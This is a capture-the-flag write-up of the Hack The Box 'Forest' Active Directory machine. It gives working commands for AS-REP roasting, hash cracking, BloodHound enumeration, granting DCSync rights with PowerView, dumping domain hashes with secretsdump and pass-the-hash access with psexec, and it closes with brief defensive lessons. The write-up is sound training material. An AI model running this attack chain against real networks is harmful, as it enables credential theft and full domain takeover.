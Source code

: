 ```yaml
---
title: "CTF Writeup: Forest"
date: 2025-01-22
categories: [CTF, Writeup, Hackthebox]
tags: [AD, DcSync, htb]
---
```


# Hack The Box - Forest

## Description
Forest is an easy machine that focusses on Active Directory and how this can be misused when certain conditions are met.

## Information Gathering

### Step 1: Enumeration
I start with running good olde nmap to enumerate the target machine.

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/forest_TCP 10.129.84.192
```
![alt text](/assets/screenshots/forest/image.png)
Seems that nothing special is running on the machine other then what we could expect from a AD machine.

Let's start with some user enumeration. We can use enum4linux for this.
```bash
# enum4linux -a -U 10.129.84.192
```
![alt text](/assets/screenshots/forest/image-1.png)<br>
I got some usernames!

Now that we found some usernames we can try and use AS-REP roasting. With kerberoasting we need to use credentials to authenticate with. But with AS-REP roasting we can get the hashes for accounts that have the 'do not require kerberos preauth' set to true.

## Exploitation

### Step 2: AS-REP Roasting

To make the AS-REP Roasting a bit faster I made a for loop to walk through a list of usernames. This is much easier then having to run the command multiple times for each username.

```bash
# for user in $(cat usernames.txt); do /opt/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.129.187.133 htb/${user} | grep -v Impacket;
```
![alt text](/assets/screenshots/forest/image-2.png)<br>
I got a hit on the hash for the user svc-alfresco!

Let's use hashcat to try and crack the hash.
```bash
# sudo hashcat -m 18200 svc_alfresco.hash /usr/share/wordlists/rockyou.txt.gz --force
```
![alt text](/assets/screenshots/forest/image-3.png)<br>
And got a hit on the password! This means I can now authenticate to the target machine using the alfresco credentials.

Using netexec to test if the credentials are working.
```bash
# netexec smb 10.129.187.133 -u "svc-alfresco" -p "[password]" --shares
```
![alt text](/assets/screenshots/forest/image-4.png)<br>
They are working and have SMB rights. I could also use netexec to run the scripts needed for bloodhound enumeration. Doing this I can get a detailed picture of the AD network and the relations between users, groups and more.
```bash
# netexec ldap 10.129.187.133 -u "svc-alfresco" -p "[password]" --bloodhound --collection All --dns-server 10.129.187.133
```
![alt text](/assets/screenshots/forest/image-5.png)<br>

It worked, I can now import this into bloodhound and see the relation in this AD envirionment.
![alt text](/assets/screenshots/forest/image-7.png)<br>
It seems that SVC-alfresco is member of the Account Operators group by a couple of group jumps. This means he can create new users to the domain.

Looking a bit deeper into the Account Operators group I can see that they have GenericAll rights on the Exchange Windows Permissions group.
![alt text](/assets/screenshots/forest/image-8.png)<br>
The Exchange Windows Permissions groups has WriteDacl (Discretionary Access Control List) rights on the HTB.Local environment. This means that a member of the Exchange Windows Permissions group can give any user DcSync privileges.

Before I look into this attack scenario further let's first try and login using the credentials and get the user.txt file. evil-winrm can be used to login to the target machine.
```bash
# evil-winrm -i 10.129.187.133 -u svc-alfresco -p [password]
```
![alt text](/assets/screenshots/forest/image-9.png)<br>

Now I should be able to get that user.txt file.
![alt text](/assets/screenshots/forest/image-19.png)<br>

# Privilege Escalation
Now to find a way to elevate privileges.

From the bloodhound insight, I know that our user svc-alfresco is a member of the privileged IT accounts. This means he can create a new domain account and because the Privileged IT account it part of the Account operators and the account operator have generic all over Exchange windows permissions we can add the user to that group!
And to make a home-run that group has WriteDacl on the htb.domain which we can use to get a DcSync and get the hashes!

First step is to create a new user on the domain. Which we can do because we are member of the Account Operators group.
```bash
# net user tech password123! /add /domain
```
![alt text](/assets/screenshots/forest/image-10.png)<br>

Now that I created a new user "tech" I can add him to the Exchange Windows Permissions group.
```bash
# net group "Exchange Windows Permissions" /add tech
```
![<alt text>](/assets/screenshots/forest/image-11.png)<br>
Noice! Our tech user is now member of the Exchange Windows Permissions group.

Now I need to give tech the rights to DcSync on the domain.
In order to do this I need Powerview.ps1!

I can simply use evil-winrm to upload powerview.ps1
![alt text](/assets/screenshots/forest/image-12.png)<br>

Now start Powerview.ps1.
```bash
# . ./Powerview.ps1
```
![alt text](/assets/screenshots/forest/image-13.png)<br>

Now I will run the following commands.
```bash
# $SecPassword = ConvertTo-SecureString 'password123!' -AsPlainText -Force
# $Cred = New-Object System.Management.Automation.PSCredential('htb\tech', $SecPassword)
# Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity tech -Rights DCSync
```
![alt text](/assets/screenshots/forest/image-14.png)<br>

Our user tech should now be able to use DcSync and able to get all the users hashes!
Let's use impacket-secretsdump to execute our DcSync attack.

```bash
# impacket-secretsdump htb.local/tech:'password123!'@10.129.187.133
```
![alt text](/assets/screenshots/forest/image-15.png)<br>
I can see the administrator and his hash!

Now use a tool like psexec to get a shell on the system.
```bash
# impacket-psexec administrator@10.129.187.133 -hashes hash:hash
```
![alt text](/assets/screenshots/forest/image-16.png)<br>
Now I can get that root.txt!

![alt text](/assets/screenshots/forest/image-17.png)<br>
Noice!

![alt text](/assets/screenshots/forest/image-18.png)<br>

## Conclusion
To summarize this machine. It was a AD machine that had some misconfigurations like not enforcing kerberos authentication. Also the privileges for the users are not restricing enough and led to a total takeover in this scenario.

## Lessons Learned
- check the accounts are kerberoastable or even asking for kerberos auth.
- check if each user needs certain privileges it has before giving it.
